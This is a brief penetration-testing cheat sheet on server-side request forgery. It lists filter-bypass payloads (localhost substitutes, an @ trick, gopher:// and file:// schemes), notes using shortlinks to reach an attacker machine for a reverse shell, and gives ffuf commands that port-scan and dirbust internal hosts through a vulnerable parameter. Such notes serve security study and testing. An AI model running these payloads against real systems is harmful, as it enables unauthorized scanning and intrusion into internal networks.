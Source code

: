 # SSRF

## Tips
- Enum ports and fuzz routes with SSRF on the local machine
- Identify other machines that this one has access to
- Use other schemes (like `file://`)
- Use the `gopher://` protocol for other methods than `GET`
  - `https://github.com/tarunkant/Gopherus`

## Restriction bypass
### localhost replacement
```
0.0.0.0
127.0.0.2
127.0.1.1
```
### Using @
```
# The the url might interpret the part before @ as credentials
http://<host>/?url=@0.0.0.0:1337/somewhere
```
### Using shortlinks
Using a shortlink generator may be used to target an external attacking machine to establish a reverse shell

## Fuzzing through SSRF
### Port scanning
```bash
seq 1 65535 > ports-wordlist.txt
```
```bash
ffuf -w ./ports-wordlist.txt -u http://<victim-host>/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "targetserver=http://127.0.0.1:FUZZ" -fr "<string to filter out by>"
```
### Dirbusting
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-small-words.txt -u http://<victim-host>/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "targetserver=http://<internal-target>/FUZZ.php" -fr "<string to filter out by>"
```